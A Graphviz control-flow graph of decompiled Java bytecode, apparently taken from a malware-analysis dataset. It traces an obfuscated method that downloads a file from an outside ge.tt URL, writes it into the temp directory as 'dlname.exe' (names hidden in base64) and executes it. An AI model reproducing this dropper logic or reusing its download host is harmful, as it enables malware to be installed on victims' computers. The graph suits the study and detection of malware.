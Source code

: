 digraph "" {
    "r0 := @this: defgd11.LMkjes"
    "load.r r0"
    "r0 := @this: defgd11.LMkjes"->"load.r r0";
    "virtualinvoke <defgd11.LMkjes: void v156g98498hd49hg()>"
    "load.r r0"->"virtualinvoke <defgd11.LMkjes: void v156g98498hd49hg()>";
    "new java.net.URL"
    "virtualinvoke <defgd11.LMkjes: void v156g98498hd49hg()>"->"new java.net.URL";
    "store.r r0"
    "new java.net.URL"->"store.r r0";
    "store.r r0"->"load.r r0";
    "push \"http://ge.tt/api/1/files/9DtRDRm/0/blob?download\""
    "load.r r0"->"push \"http://ge.tt/api/1/files/9DtRDRm/0/blob?download\"";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "push \"http://ge.tt/api/1/files/9DtRDRm/0/blob?download\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"load.r r0";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "load.r r0"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "pop"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"pop";
    "pop"->"load.r r0";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "load.r r0"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"store.r r0";
    "new java.io.FileOutputStream"
    "store.r r0"->"new java.io.FileOutputStream";
    "store.r $r4"
    "new java.io.FileOutputStream"->"store.r $r4";
    "load.r $r4"
    "store.r $r4"->"load.r $r4";
    "new java.lang.StringBuilder"
    "load.r $r4"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "new java.lang.String"
    "dup1.r"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "push \"amF2YS5pby50bXBkaXI=\""
    "dup1.r"->"push \"amF2YS5pby50bXBkaXI=\"";
    "virtualinvoke <java.lang.String: byte[] getBytes()>"
    "push \"amF2YS5pby50bXBkaXI=\""->"virtualinvoke <java.lang.String: byte[] getBytes()>";
    "staticinvoke <defgd11.Base64: byte[] decode(byte[])>"
    "virtualinvoke <java.lang.String: byte[] getBytes()>"->"staticinvoke <defgd11.Base64: byte[] decode(byte[])>";
    "specialinvoke <java.lang.String: void <init>(byte[])>"
    "staticinvoke <defgd11.Base64: byte[] decode(byte[])>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "push \"ZGxuYW1lLmV4ZQ==\""
    "dup1.r"->"push \"ZGxuYW1lLmV4ZQ==\"";
    "push \"ZGxuYW1lLmV4ZQ==\""->"virtualinvoke <java.lang.String: byte[] getBytes()>";
    "virtualinvoke <java.lang.String: byte[] getBytes()>"->"staticinvoke <defgd11.Base64: byte[] decode(byte[])>";
    "staticinvoke <defgd11.Base64: byte[] decode(byte[])>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "push 153600"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"push 153600";
    "newarray"
    "push 153600"->"newarray";
    "store.r r34"
    "newarray"->"store.r r34";
    "goto load.r r0"
    "store.r r34"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "load.r r34"
    "load.r r0"->"load.r r34";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r34"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i $i0"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i $i0";
    "load.i $i0"
    "store.i $i0"->"load.i $i0";
    "ifgt load.r $r4"
    "load.i $i0"->"ifgt load.r $r4";
    "staticinvoke <java.lang.System: long currentTimeMillis()>"
    "ifgt load.r $r4"->"staticinvoke <java.lang.System: long currentTimeMillis()>";
    "staticinvoke <java.lang.System: long currentTimeMillis()>"->"pop";
    "pop"->"load.r $r4";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r4"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r r0";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r0"->"virtualinvoke <java.io.InputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.InputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "dup1.r"->"push \"amF2YS5pby50bXBkaXI=\"";
    "push \"amF2YS5pby50bXBkaXI=\""->"virtualinvoke <java.lang.String: byte[] getBytes()>";
    "virtualinvoke <java.lang.String: byte[] getBytes()>"->"staticinvoke <defgd11.Base64: byte[] decode(byte[])>";
    "staticinvoke <defgd11.Base64: byte[] decode(byte[])>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "dup1.r"->"push \"ZGxuYW1lLmV4ZQ==\"";
    "push \"ZGxuYW1lLmV4ZQ==\""->"virtualinvoke <java.lang.String: byte[] getBytes()>";
    "virtualinvoke <java.lang.String: byte[] getBytes()>"->"staticinvoke <defgd11.Base64: byte[] decode(byte[])>";
    "staticinvoke <defgd11.Base64: byte[] decode(byte[])>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"store.r r0";
    "store.r r0"->"load.r r0";
    "ifnull load.r r0"
    "load.r r0"->"ifnull load.r r0";
    "ifnull load.r r0"->"load.r r0";
    "virtualinvoke <java.lang.Process: int waitFor()>"
    "load.r r0"->"virtualinvoke <java.lang.Process: int waitFor()>";
    "virtualinvoke <java.lang.Process: int waitFor()>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Throwable: void printStackTrace()>"
    "virtualinvoke <java.lang.Process: int waitFor()>"->"virtualinvoke <java.lang.Throwable: void printStackTrace()>";
    "ifgt load.r $r4"->"load.r $r4";
    "load.r $r4"->"load.r r34";
    "push 0"
    "load.r r34"->"push 0";
    "push 0"->"load.i $i0";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i0"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"push 153600";
    "push 153600"->"newarray";
    "newarray"->"store.r r34";
}
